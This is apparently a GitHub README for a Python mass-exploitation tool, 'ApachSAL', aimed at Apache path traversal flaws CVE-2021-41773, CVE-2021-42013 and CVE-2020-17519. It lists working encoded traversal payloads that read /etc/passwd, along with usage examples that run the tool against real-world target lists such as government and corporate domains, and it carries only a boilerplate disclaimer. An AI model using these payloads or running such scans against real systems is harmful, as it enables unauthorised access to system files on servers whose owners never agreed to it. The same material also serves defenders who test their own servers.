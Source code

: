 <p align="center">
<a href="https://github.com/imhunterand/ApachSAL/">
  <img src="assets/prints/banner.png" width="700" alt="Banner Apache Path Traversal" />
</a>
</p>
<h1 align="center">
  Apache Path Traversal 
</h1>
  
<img alt="GPL License" src="https://img.shields.io/github/license/imhunterand/ApachSAL?color=blue">
  
<img alt="GitHub code size in bytes" src="https://img.shields.io/github/languages/code-size/imhunterand/ApachSAL">

<img alt="Python 3.8" src="https://img.shields.io/badge/python-3.8-yellow.svg">
<img alt="Supported_OS Linux orange" src="https://img.shields.io/badge/Supported_OS-Linux-orange.svg">
<img alt="Supported OS Mac" src="https://img.shields.io/badge/Supported_OS-Mac-orange.svg">
</p> 

### Path traversal (software bug) 
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

## Disclaimer 
```
This or previous program is for Educational purpose ONLY. Do not use it without permission. 
The usual disclaimer applies, especially the fact that me (Imhunterand) is not liable for any 
damages caused by direct or indirect use of the information or functionality provided by these 
programs. The author or any Internet provider bears NO responsibility for content or misuse 
of these programs or any derivatives thereof. By using these programs you accept the fact 
that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these 
programs is not Imhunterand responsibility.
``` 


### This script checks for vulnerabilities
- [CVE-2021-41773  ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)
- [CVE-2020-17519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)


## Commands
```bash
python main.py --file gov.br.txt  --thread 15
python main.py --file tesla.txt  --ssl
python main.py --range 192.168.15.1,192.168.15.100 --thread 30 
python main.py --file fbi.gov.txt  --thread 15 --timeout 3 
python main.py --file gov.ru.txt  --debug
```
## Screenshots
![Screenshot](/assets/prints/print01.png)
![Screenshot](/assets/prints/print02.png)


## Flow to generate targets
![Screenshot](/assets/prints/print03.jpg)

## Help
```bash
python main.py --help
```
 
```properties

                                   .,,
                                  (=\/\
                                   \=\/\
                                    \=\/\
                                     `=\/
                                        \
            TRAVERSAL [ APACHE ]
 ▄▄▄       ██▓███   ▄▄▄       ▄████▄   ██░ ██   ██████  ▄▄▄       ██▓
▒████▄    ▓██░  ██▒▒████▄    ▒██▀ ▀█  ▓██░ ██▒▒██    ▒ ▒████▄    ▓██▒
▒██  ▀█▄  ▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▒██▀▀██░░ ▓██▄   ▒██  ▀█▄  ▒██░
░██▄▄▄▄██ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒░▓█ ░██   ▒   ██▒░██▄▄▄▄██ ▒██░
 ▓█   ▓██▒▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░░▓█▒░██▓▒██████▒▒ ▓█   ▓██▒░██████▒
 ▒▒   ▓▒█░▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░ ▒ ░░▒░▒▒ ▒▓▒ ▒ ░ ▒▒   ▓▒█░░ ▒░▓  ░
  ▒   ▒▒ ░░▒ ░       ▒   ▒▒ ░  ░  ▒    ▒ ░▒░ ░░ ░▒  ░ ░  ▒   ▒▒ ░░ ░ ▒  ░
  ░   ▒   ░░         ░   ▒   ░         ░  ░░ ░░  ░  ░    ░   ▒     ░ ░
      ░  ░               ░  ░░ ░       ░  ░  ░      ░        ░  ░    ░  ░
                             ░


                      By: imhunterand /labsbots.com/
                      https://twitter.com/imhunterand
                      https://github.com/imhunterand/                                                                     
         
usage: tool [-h] [--file <ips.txt>] [--range <ip-start>,<ip-end>]
            [--thread <20>] [--ssl] [--timeout <5>] [--debug]

[!] Check: CVE-2021-41773, CVE-2021-42013, CVE-2020-17519
[!] File exploits: /assets/exploits.json
[!] Output: output/vuln.txt

python main.py --file gov.br.txt  --thread 15
python main.py --file tesla.txt  --ssl
python main.py --range 192.168.15.1,192.168.15.100 --thread 30 
python main.py --file fbi.gov.txt  --thread 15 --timeout 3 
python main.py --file gov.ru.txt  --debug

optional arguments:
  -h, --help            show this help message and exit
  --file <ips.txt>      Input your target host lists
  --range <ip-start>,<ip-end>
                        Set range IP Eg.: 192.168.15.1,192.168.15.100
  --thread <20>, -t <20>
                        Eg. 20
  --ssl                 Enable request with SSL
  --timeout <5>         Set connection timeout
  --debug, -d           Enable debug mode

```

## Tree
```properties
.
├── assets
│   ├── autor.json
│   ├── config.json
│   ├── exploits.json
│   └── prints
│       ├── banner.png
│       ├── print01.png
│       └── print02.png
├── LICENSE
├── main.py
├── modules
│   ├── banner_mrclw.py
│   ├── color_mrclw.py
│   ├── debug_mrclw.py
│   ├── file_mrclw.py
│   ├── __init__.py
│   ├── request_mrclw.py
│   ├── shodan_mrclw.py
│   └── thread_mrclw.py
├── output
└── README.md
```

## File exploit
> assets/exploits.json 
```json
{
    "CVE-2021-41773": "/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd",
    "CVE-2021-42013-0": "/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd",
    "CVE-2021-42013-1": "/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2021-42013-3": "/cgi-bin/.%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2021-42013-4":"/cgi-bin/%25%25%25%2e/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2020-17519-0":"/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd",
    "CVE-2020-17519-1":"/cgi-bin/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
}
```



### Ref.

- https://owasp.org/www-community/attacks/Path_Traversal
- https://appcheck-ng.com/apache-path-traversal-vulnerability-cve-2021-41773/
- https://www.exploit-db.com/exploits/50383
- https://www.exploit-db.com/exploits/50406
- https://www.exploit-db.com/exploits/49398
- https://owasp.org/www-community/attacks/Path_Traversal
